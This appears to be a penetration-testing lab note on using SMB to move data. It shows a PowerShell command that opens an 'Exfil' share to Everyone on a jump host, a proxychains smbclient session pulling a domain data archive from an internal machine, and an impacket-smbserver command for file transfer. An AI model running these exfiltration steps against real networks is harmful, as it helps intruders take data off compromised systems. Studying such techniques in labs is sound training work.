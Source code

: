 # SMB

## PowerShell Create SMB Share - Jump Host

```powershell
PS C:\Users\Public> New-SmbShare -Name "Exfil" -Path C:\Users\Public\Documents -FullAccess "Everyone"

Name  ScopeName Path                      Description
----  --------- ----                      -----------
Exfil *         C:\Users\Public\Documents            


PS C:\Users\Public> Get-SmbShare

Name   ScopeName Path                      Description  
----   --------- ----                      -----------  
ADMIN$ *         C:\Windows                Remote Admin 
C$     *         C:\                       Default share
Exfil  *         C:\Users\Public\Documents              
IPC$   *                                   Remote IPC   


```

### Getting Data&#x20;

NOTE: Make sure to include the Domain name in the username: "DOMAIN/Username"

```shell-session
└─$ proxychains smbclient //172.16.224.11/Exfil -U "MEDTECH/joe"
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Password for [MEDTECH\joe]:
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.224.11:445  ...  OK
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Dec 13 23:49:18 2023
  ..                                DHS        0  Wed Dec 13 23:49:17 2023
  20231213201811_MEDTECH.zip          A    23757  Wed Dec 13 23:18:58 2023
  ZGViMzVhYzItYmNiMy00MmY2LWEzYjItZmE0NGEyNDBlMWMz.bin      A    44405  Wed Dec 13 23:18:58 2023

                7699967 blocks of size 4096. 4769448 blocks available

```

## Impacket-smbserver

We can start a smb server with impacket-smbserver and transfer files to and from our kali host

```
python smbserver.py SHARE_NAME PATH_TO_SHARE
```
